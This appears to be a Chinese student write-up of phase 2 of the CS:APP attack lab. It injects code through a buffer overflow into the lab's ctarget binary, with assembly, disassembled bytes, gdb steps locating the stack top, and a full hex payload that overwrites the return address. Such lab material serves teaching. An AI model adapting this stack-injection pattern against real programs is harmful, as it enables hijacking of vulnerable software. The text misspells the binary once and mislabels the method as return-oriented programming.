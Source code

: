 

cookie 为 0x59b997fa

需要修改rdi寄存器（val）的值和cookie的值相同

（感觉advice已经基本把解题思路说清了）

将cookie的值写入rdi

不用使用jmp，call。使用ret（面向返回编程）



因为要执行我们自己设定的汇编指令，只能在栈内编写

栈顶虽然是从大到小，但是运行是从小到大，因此需要知道栈顶的地址

先写入cookie的值，再将touch2的地址压入栈，ret会去调用touch2

level2.s

```assembly
mov $0x59b997fa, %rdi
pushq $0x4017ec
retq
```

```shell
gcc -c level2.s
objdump -d level2.o > level2.asm
```

level2.asm

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```



查看栈顶

```shell
gdb ctraget
b *0x4017ac
r -q
info register rsp
rsp 0x5561dc78 0x5561dc78
```



##### ans2.txt

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00
78 dc 61 55
```
